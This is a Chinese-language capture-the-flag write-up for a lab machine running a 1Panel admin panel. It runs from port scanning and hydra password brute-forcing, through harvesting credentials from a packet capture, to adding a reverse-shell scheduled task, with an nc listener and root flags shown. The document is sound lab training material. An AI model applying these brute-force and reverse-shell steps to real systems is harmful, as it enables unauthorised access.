







端口扫描 1 2 3 4 5 6 7 8 9 10 11 12 13 ┌──(kali㉿kali)-[~/HMV/pane1] └─$ sudo nmap -p- 192.168.0.106 -oA ports Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-13 09:55 CST Nmap scan report for 192.168.0.106 Host is up (0.00041s latency). Not shown: 65532 closed tcp ports (reset) PORT STATE SERVICE 22/tcp open ssh 80/tcp open http 38415/tcp open unknown MAC Address: 66:14:A6:1C:F8:E8 (Unknown) Nmap done : 1 IP address (1 host up) scanned in 1.92 seconds
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 ┌──(kali㉿kali)-[~/HMV/pane1] └─$ sudo nmap -sT -sC -sV -O -p22,80,38415 192.168.0.106 -oA details Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-13 09:57 CST Nmap scan report for 192.168.0.106 Host is up (0.0023s latency). PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0) | ssh-hostkey: | 3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA) | 256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA) |_ 256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519) 80/tcp open http Apache httpd 2.4.62 ((Debian)) |_http-title: \xE8\xBF\x90\xE7\xBB\xB4\xE7\xAE\xA1\xE7\x90\x86\xE9\x9D\xA2\xE6\x9D\xBF | http-cookie-flags: | /: | PHPSESSID: |_ httponly flag not set |_http-server-header: Apache/2.4.62 (Debian) 38415/tcp open http Golang net/http server |_http-title: \xE6\x9A\x82\xE6\x97\xB6\xE6\x97\xA0\xE6\xB3\x95\xE8\xAE\xBF\xE9\x97\xAE | fingerprint-strings: | GenericLines: | HTTP/1.1 400 Bad Request | Content-Type: text/plain; charset=utf-8 | Connection: close | Request | GetRequest, HTTPOptions: | HTTP/1.0 200 OK | Content-Type: text/html; charset=utf-8 | Set-Cookie: panel_public_key=LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0KTUlJQklqQU5CZ2txaGtpRzl3MEJBUUVGQUFPQ0FROEFNSUlCQ2dLQ0FRRUE1ZllUUXFaT05WV3h5YlpqSndZbwp4Y1VuYnkyVUFZVVg4K0tBZmpna1liTVN2SU5ma1N4a3ZPMGIvNURud0F4UG9lYUZMTHNCTHhpOG9rVmdwRkQ4CjQ1U3R1Mmlqa1lXRVBXM29jWnEwVDMxODcremk0aTBxYlpvZU9pRWVzRUNCQksxTHhSeGowV1E4bnZSMTRnbk8KYktmRzEwL01xR040Nk9TL09XU0RkeXZxWXA0OGttRElaVlQxMCsxWGNzNXBEMnltUUxsWUl0L0VEQVEyQ0wwRQpzR1BKOUoreHJsSGVQMnl1cTgrQ2hlNmFWWWhmOE5oYmZzdVRQTW9TLy9DQVZTN0ZISmw5ZDA2aE5zbXhDV2pOCmJrL01VYnVMWUlmZk9jTWxmaW90eWNqL1VmNDJTQWZCVWZHTG5Na2ZKcVprbmhsV3V3Q2NINUVJZ29wMWl6T1YKelFJREFRQUIKLS0tLS1FTkQgUFVCTElDIEtFWS0tLS0tCg%3D%3D; Path=/; Max-Age=604800 | Date: Wed, 13 Aug 2025 01:57:26 GMT | Content-Length: 1410 | <!DOCTYPE html> | <html lang="zh-CN" > | <head > | <meta charset="UTF-8" > |_ <meta name="viewport" content="width=device-w MAC Address: 66:14:A6:1C:F8:E8 (Unknown) Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port Device type: general purpose|router Running: Linux 4.X|5.X, MikroTik RouterOS 7.X OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3 OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) Network Distance: 1 hop Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 29.89 seconds
web渗透 80 端口和 38415 看上去都是web，而且 38415 端口有一个比较有特征的 panel_public_key ，搜了一下 panel ，发现有关的为 1panel 这个运维面板，可能后面会有用。
先看看 80 端口：

是个登录的页面，试了几个弱密码，都无法登录。
那就进行目录扫描：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 ┌──(kali㉿kali)-[~/HMV/pane1] └─$ sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://192.168.0.106 -x php,html,txt =============================================================== Gobuster v3.6 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart) =============================================================== [+] Url: http://192.168.0.106 [+] Method: GET [+] Threads: 10 [+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt [+] Negative Status codes: 404 [+] User Agent: gobuster/3.6 [+] Extensions: php,html,txt [+] Timeout: 10s =============================================================== Starting gobuster in directory enumeration mode =============================================================== /.html (Status: 403) [Size: 278] /.php (Status: 403) [Size: 278] /index.php (Status: 200) [Size: 2016] /logout.php (Status: 302) [Size: 0] [--> index.php] /dashboard.php (Status: 302) [Size: 0] [--> index.php] /.php (Status: 403) [Size: 278] /.html (Status: 403) [Size: 278] /server-status (Status: 403) [Size: 278] Progress: 830572 / 830576 (100.00%) =============================================================== Finished ===============================================================
没什么信息。
放一个 hydra 爆破密码在后台:
1 2 ┌──(kali㉿kali)-[~/HMV/pane1] └─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt -vV -t 4 192.168.0.106 http-post-form '/:username=^USER^&password=^PASS^:Something Error.'
然后我们先看看 38415 端口的web：

说是暂时无法访问，目录扫描看看：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 ┌──(kali㉿kali)-[~/HMV/pane1] └─$ dirsearch -u http://192.168.0.106:38415 /usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html from pkg_resources import DistributionNotFound, VersionConflict _|. _ _ _ _ _ _|_ v0.4.3 (_||| _) (/_(_|| (_| ) Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460 Output File: /home/kali/HMV/pane1/reports/http_192.168.0.106_38415/_25-08-13_10-16-39.txt Target: http://192.168.0.106:38415/ [10:16:39] Starting: [10:17:01] 404 - 43B - /assets/file [10:17:01] 200 - 257B - /assets/ [10:17:01] 301 - 43B - /assets -> /assets/ [10:17:01] 404 - 43B - /assets/fckeditor [10:17:01] 404 - 43B - /assets/pubspec.yaml [10:17:01] 404 - 43B - /assets/npm-debug.log [10:17:01] 404 - 43B - /assets/js/fckeditor [10:17:11] 301 - 48B - /favicon.ico -> /favicon.ico/ [10:17:13] 200 - 4B - /health [10:17:27] 301 - 43B - /public -> /public/ [10:17:27] 200 - 117B - /public/
通过这些目录里的信息，确定后台是一个 1panel 的运维面板。
网上搜搜 1panel漏洞 ，发现了一个 CVE-2025-54424 比较新，但是这个漏洞需要进行ssl连接，使用给出的 poc 发现总是连接失败，想必不是。
之后又搜了一下 1panel 默认用户名密码 ，但是也没有搜到什么有用的信息。
到这里，我感觉入口应该就是前面的那个登录页面，可能我的思路哪里有问题，准备再从 80 端口的登录页面入手。
前面 hydra 爆破 admin 的密码没有爆破出来，这次，我采用 hydra 循环用户名来进行爆破：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 ┌──(kali㉿kali)-[~/HMV/pane1] └─$ hydra -L /usr/share/wordlists/fuzzDicts/userNameDict/top500.txt -P /usr/share/wordlists/rockyou.txt -vV -t 4 192.168.0.106 http-post-form '/:username=^USER^&password=^PASS^:Something Error.' -u -I Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway). Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-13 11:19:03 [WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore [DATA] max 4 tasks per 1 server, overall 4 tasks, 7344332288 login tries (l:512/p:14344399), ~1836083072 tries per task [DATA] attacking http-post-form://192.168.0.106:80/:username=^USER^&password=^PASS^:Something Error. [VERBOSE] Resolving addresses ... [VERBOSE] resolving done [ATTEMPT] target 192.168.0.106 - login "admin" - pass "123456" - 1 of 7344332288 [child 0] (0/0) [ATTEMPT] target 192.168.0.106 - login "test" - pass "123456" - 2 of 7344332288 [child 1] (0/0) [ATTEMPT] target 192.168.0.106 - login "test01" - pass "123456" - 3 of 7344332288 [child 2] (0/0) [ATTEMPT] target 192.168.0.106 - login "test1" - pass "123456" - 4 of 7344332288 [child 3] (0/0) [ATTEMPT] target 192.168.0.106 - login "test2" - pass "123456" - 5 of 7344332288 [child 3] (0/0) [ATTEMPT] target 192.168.0.106 - login "weblogic" - pass "123456" - 6 of 7344332288 [child 0] (0/0) [ATTEMPT] target 192.168.0.106 - login "ftp" - pass "123456" - 7 of 7344332288 [child 1] (0/0) [ATTEMPT] target 192.168.0.106 - login "manager" - pass "123456" - 8 of 7344332288 [child 2] (0/0) [ATTEMPT] target 192.168.0.106 - login "manage" - pass "123456" - 9 of 7344332288 [child 0] (0/0) [ATTEMPT] target 192.168.0.106 - login "user" - pass "123456" - 10 of 7344332288 [child 1] (0/0) [ATTEMPT] target 192.168.0.106 - login "guest" - pass "123456" - 11 of 7344332288 [child 2] (0/0) [ATTEMPT] target 192.168.0.106 - login "administrator" - pass "123456" - 12 of 7344332288 [child 3] (0/0) [ATTEMPT] target 192.168.0.106 - login "account" - pass "123456" - 13 of 7344332288 [child 1] (0/0) [VERBOSE] Page redirected to http[s]://192.168.0.106:80/dashboard.php [ATTEMPT] target 192.168.0.106 - login "super" - pass "123456" - 14 of 7344332288 [child 0] (0/0) [ATTEMPT] target 192.168.0.106 - login "superuser" - pass "123456" - 15 of 7344332288 [child 2] (0/0) [80][http-post-form] host: 192.168.0.106 login: administrator password: 123456
发现了一个有效凭据 administrator:123456 ，原来用户名不是 admin，而是administrator。。。
那就用这个用户名密码登录：

进去之后发现有个流量包，下载下来，拿wireshark看一下，发现里面有几条用用户名密码登录的数据：

登录的目的网站就是我们所在的这个网站，因此我又尝试了重新用这些凭据去登录，但是都没法登录（我以为用这些凭据登录之后会有不一样的功能……）。
然后仔细看看我前面登录后的页面，发现在 “服务状态” 这里，有个 1Panel 122b059247 :

想到前面 38415 端口说会有个安全登录的入口，想必这个 122b059247 就是那个路径，去访问一下：
是个 1Panel 的登录页面，尝试用前面数据包里发现的用户名密码去登录，发现 root:superpassword123 可以登录进去：

然后发现可以添加计划任务，添加一个反弹shell的计划任务：

获取立足点 执行之后，shell 就弹回来了，发现直接就是 root：
1 2 3 4 5 6 7 8 9 10 11 ┌──(kali㉿kali)-[~/HMV/pane1] └─$ nc -nvlp 1234 Listening on 0.0.0.0 1234 Connection received on 192.168.0.106 54328 whoami root python3 -c "import pty;pty.spawn('/bin/bash')" root@Pane1:/opt/1panel/task/shell/test# whoami whoami root root@Pane1:/opt/1panel/task/shell/test#
拿 user flag 和 root flag：
1 2 3 4 5 6 7 root@Pane1:/home/kaada# cat user.txt cat user.txtflag{user-ef68ba312de0daa3dd200a3f9275a6f6} root@Pane1:/home/kaada# cat /root/root.txt cat /root/root.txtflag{root-e07910a06a086c83ba41827aa00b26ed} root@Pane1:/home/kaada#